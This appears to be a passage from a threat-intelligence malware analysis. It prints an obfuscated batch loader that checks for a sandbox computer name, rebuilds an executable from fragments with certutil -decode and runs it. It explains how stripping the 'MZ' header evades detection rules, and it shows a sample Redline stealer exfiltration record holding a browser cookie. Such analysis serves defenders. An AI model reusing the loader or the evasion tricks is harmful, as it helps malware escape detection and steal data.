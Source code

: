 ``` batch
Set Fx=0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ

%Fx:~18,1%%Fx:~15,1% %computername% == %Fx:~39,1%%Fx:~40,1%%Fx:~54,1%%Fx:~46,1%%Fx:~55,1%%Fx:~50,1%%Fx:~51,1%-%Fx:~52,1%%Fx:~50,1%%Fx:~5,1%%Fx:~52,1%%Fx:~56,1%%Fx:~3,1%%Fx:~3,1% %Fx:~14,1%%Fx:~33,1%%Fx:~18,1%%Fx:~29,1%

<%Fx:~23,1%%Fx:~30,1%%Fx:~21,1% %Fx:~28,1%%Fx:~14,1%%Fx:~29,1% /%Fx:~25,1% ="%Fx:~48,1%" > %Fx:~28,1%%Fx:~22,1%%Fx:~28,1%%Fx:~28,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1%

%Fx:~29,1%%Fx:~34,1%%Fx:~25,1%%Fx:~14,1% %Fx:~35,1%%Fx:~56,1%%Fx:~26,1%%Fx:~28,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1% >> %Fx:~28,1%%Fx:~22,1%%Fx:~28,1%%Fx:~28,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1%

%Fx:~13,1%%Fx:~14,1%%Fx:~21,1% %Fx:~35,1%%Fx:~56,1%%Fx:~26,1%%Fx:~28,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1%

%Fx:~12,1%%Fx:~14,1%%Fx:~27,1%%Fx:~29,1%%Fx:~30,1%%Fx:~29,1%%Fx:~18,1%%Fx:~21,1% -%Fx:~13,1%%Fx:~14,1%%Fx:~12,1%%Fx:~24,1%%Fx:~13,1%%Fx:~14,1% %Fx:~47,1%%Fx:~61,1%%Fx:~33,1%%Fx:~44,1%%Fx:~51,1%%Fx:~22,1%%Fx:~20,1%%Fx:~21,1%%Fx:~33,1%%Fx:~12,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1% %Fx:~48,1%

%Fx:~28,1%%Fx:~22,1%%Fx:~28,1%%Fx:~28,1%.%Fx:~12,1%%Fx:~24,1%%Fx:~22,1% %Fx:~48,1%

%Fx:~25,1%%Fx:~18,1%%Fx:~23,1%%Fx:~16,1% %Fx:~1,1%%Fx:~2,1%%Fx:~7,1%.%Fx:~0,1%.%Fx:~0,1%.%Fx:~1,1% -%Fx:~23,1% %Fx:~3,1%

```

<h4>This also has just changed the header of the PE builder sometimes in removing a part of the magic numbers or all sometimes for avoid to be triggers in the detection rule that push as condition that be a valid PE (fix it in pushing the missing part "M" or "MZ").</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/UnknownTA/2020-09-07/Pictures/Headers.png"></img></center>

<h3>Autoit script</h3>

<h4>The obfuscation rest the same with unused functions and While - Switch condition for getting the shellcode to inject, this can decode the binaries (like Taurus) or just execute another shellcode just decoded in memory.</h4>

<h3>Data extraction</h3>

<h4>Like said previous many RAT and stealers have been found on this loader.</h4>

<h4>RAT Redline (XML) : </h4>

```xml
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
<s:Body><SendClientInfo xmlns="http://tempuri.org/"><user xmlns:a="v1/Models" xmlns:i="http://www.w3.org/2001/XMLSchema-instance">
<a:BuildID>01 08</a:BuildID>
<a:Country>NL</a:Country>
<a:Credentials>
<a:Browsers>
<a:Browser>
<a:Autofills/>
<a:Cookies>
<a:Expires>1564575439</a:Expires>
<a:Host>.mozilla.org</a:Host>
<a:Http>true</a:Http>
<a:Name>_gid</a:Name>
<a:Path>/</a:Path>
<a:Secure>false</a:Secure>
<a:Value>GA1.2.913472244.1564489040</a:Value></a:Cookie>
<a:Hardware>
<a:Caption>Intel(R) Core(TM) ix CPU @ xGHz</a:Caption>
<a:HardType>Processor</a:HardType>
<a:Parameter>2</a:Parameter></a:Hardware>
```